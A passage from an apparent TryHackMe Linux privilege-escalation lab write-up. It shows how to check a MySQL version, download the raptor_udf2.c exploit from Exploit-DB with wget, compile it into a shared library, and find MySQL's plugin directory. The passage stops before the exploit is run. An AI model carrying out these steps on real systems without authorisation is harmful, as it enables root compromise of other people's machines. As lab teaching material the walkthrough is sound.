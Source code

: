 Let's confirm the version of MySQL service running on the target machine. We can do this with one of the following commands.

```console
mysql -V
mysql -u root -p -e 'select @@version;'
```
![MySQL Version](../../assets/images/thm/linuxprivesc/03-mysql_version.png)

This version of MySQL has a vulnerability which allows users to run user-defined functions to execute commands.

![MySQL UDF Vuln](../../assets/images/thm/linuxprivesc/04-mysql_udf_vuln.png)

The exploit can be downloaded from Exploit DB: [raptor_udf2.c](https://www.exploit-db.com/exploits/1518)

Let's download the exploit code onto the target machine and compile the exploit code into a shared object file.

```console
wget https://www.exploit-db.com/download/1518 -o raptor_udf2.c
```
```console
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
![UDF Compile](../../assets/images/thm/linuxprivesc/05-mysql_compile_sharedlib.png)

We now need to connect to the MySQL database and determine the path of the *plugins directory* where MySQL stores its UDF functions.

```console
mysql -u root -p
show variables like '%plugin%';
```